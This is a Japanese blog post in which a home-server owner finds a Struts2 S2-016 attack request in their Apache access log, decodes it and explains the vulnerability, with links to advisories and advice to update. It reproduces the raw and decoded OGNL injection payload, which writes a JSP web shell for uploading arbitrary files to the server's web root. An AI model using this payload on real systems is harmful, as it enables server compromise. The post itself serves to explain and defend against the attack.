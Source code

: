 ```yaml
---
title: apacheのaccess_logにjavaのソースコードみたいなアクセスが記録されていた。(Struts2の脆弱性S2-016への攻撃)
pubtime: 2015-07-01T16:04:00+09:00
amp: hybrid
tags: [Apache, access_log, Java, Struts2]
description: 自宅サーバで動かしているApacheに対してStruts2の脆弱性「S2-016」を悪用しようとする攻撃が来ていたので、その内容を調べてみました。
---
```


さっきの[apache killerの話](/blog/2015/07/python-make-apache-killer)を書いたあとでapacheのアクセスログを見ていたら、こんなアクセスが。
```
xx.xx.xx.xx [01/Jul/2015:03:09:11 +0900] "GET /index.php?redirect:$%%7b%%2523req%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),%%2523res%%253d%%2523context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),%%2523res.getWriter().println(%%2522okokok%%2522),%%2523res.getWriter().flush(),%%2523res.getWriter().close(),new+java.io.BufferedWriter(new+java.io.FileWriter(%%2523req.getRealPath(%%2522/%%2522)%%252b%%2522lndex.jsp%%2522)).append(%%2523req.getParameter(%%2522shell%%2522)).close()%%7d&shell=%%253C%%2525if(request.getParameter(%%2522f%%2522)!%%253Dnull)(new%%2520java.io.FileOutputStream(application.getRealPath(%%2522%%252F%%2522)%%252Brequest.getParameter(%%2522f%%2522))).write(request.getParameter(%%2522t%%2522).getBytes())%%253B%%2525%%253E%%253Ca%%2520href%%253D%%2522One_OK%%2522%%253E%%253C%%252Fa%%253E HTTP/1.1" 404 2583 "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1"
```
なんじゃこりゃ。むっちゃ長い。

どうもプログラムのコードをそのまんま突っ込んであるようなので、バラしてみました。
```
redirect:
    ${
        #req = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletRequest'),
        #res = #context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse'),
        #res.getWriter().println("okokok"),
        #res.getWriter().flush(),
        #res.getWriter().close(),
        new java.io.BufferedWriter(
            new java.io.FileWriter(
                #req.getRealPath("/") + "lndex.jsp"
            )
        ).append(#req.getParameter("shell")).close()
    }
    &shell = <%%
        if(request.getParameter("f") != null)
            (
                new java.io.FileOutputStream(application.getRealPath("/") + request.getParameter("f"))
            ).write(request.getParameter("t").getBytes());
    %%>
    <a href="One_OK"></a>
```
こんな感じになった。
javaだよjava。javaが埋めこまれている。

調べてみると、どうやら**Sturts2**とやらが関連するようです？
Sturts2というのはjavaでwebアプリケーションを記述するためのフレームワークとのこと。Apacheが作っているらしい。
で、今回問題になるのは*S2-016*という脆弱性。[Apache Struts 2 DocumentationのS2-016のページ](http://struts.apache.org/docs/s2-016.html)を見てみると、確かに似たような雰囲気のURIのサンプルが載っている。

脆弱性の内容としては、クエリに`redirect: `から始まる何かを書いたURIでGETすると、任意のソースを実行できてしまう、というもののようです。
バラしたURIを上に書きましたが、Javaのコードをそのまんま書いて、そのまんま実行するっぽい。
うーむ、くわばらくわばら。

影響をうけるのはStrutsの2.0.0から2.3.15とのこと。
Struts2を利用しているのなら要アップデート、ですかね。

---

参考：
- [Tomcat Files Getting uploaded - Security Loophole - Stack Overflow](http://stackoverflow.com/questions/21104956/tomcat-files-getting-uploaded-security-loophole)
- [Apache Struts の脆弱性 (S2-016) に関する注意喚起](https://www.jpcert.or.jp/at/2013/at130033.html)

